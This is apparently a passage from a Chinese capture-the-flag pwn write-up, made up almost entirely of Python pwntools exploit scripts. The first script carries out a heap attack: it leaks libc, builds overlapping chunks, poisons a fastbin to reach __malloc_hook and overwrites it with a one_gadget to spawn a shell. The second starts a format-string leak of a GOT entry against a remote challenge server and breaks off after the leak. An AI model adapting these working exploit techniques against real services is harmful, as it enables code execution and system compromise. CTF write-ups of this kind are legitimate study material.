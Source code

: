 ```python

show(1)
p.recvuntil('content: ')
p.recv(0x20)
addr = u64(p.recv(0x8))
print(hex(addr))
main_arena_offset = libc.symbols["__malloc_hook"] + 0x10 + 88
print(hex(main_arena_offset))
libc_addr = addr - main_arena_offset

malloc_hook = libc_addr + libc.symbols['__malloc_hook']
realloc = libc_addr + libc.symbols['__libc_realloc']

add(0xa8) # 2
add(0x18) # 4
add(0x68) # 5
add(0x18) # 6
write(3, 0x18+10, b'a'*(0x18) + b'\x91')
delete(4)
add(0x88) # 4
huifuw = b'a'*0x10 + p64(0) + p64(0x71)
write(4, len(huifuw), huifuw)
delete(5)
payload = b'a'*0x10 + p64(0) + p64(0x71) + p64(malloc_hook-0x23)
write(4, len(payload), payload)
add(0x68) # 5
add(0x68) # 7 fake_chunk
print(hex(addr))
print(hex(libc_addr))
print(hex(malloc_hook))
print(hex(libc_addr + one_gadget[1]))
payload2 = b'a'*(0x13-8) + p64(libc_addr + one_gadget[1]) + p64(realloc+16)
write(7, len(payload2), payload2)
pause()
add(0x18)
p.interactive()
```

one_gadget条件不满足时，通过relloc的trick调整。（待补充）



## axb_2019_fmt32

```python
from pwn_debug import *
from LibcSearcher import *
context.log_level = 'debug'

pdbg = pwn_debug('./axb_2019_fmt32')

#pdbg.debug("2.23")
#pdbg.local()
pdbg.remote('node4.buuoj.cn', 26952, "/home/xyc/share/s/libc-2.23_x86.so")

p = pdbg.run('remote')
libc = pdbg.libc
elf = pdbg.elf
p.recv()
read_got = elf.got['read']
payload = 'a' + p32(read_got) + '%8$s'
p.sendline(payload)
p.recvuntil('Repeater:a' + p32(read_got))
read_addr = u32(p.recv(4))
```
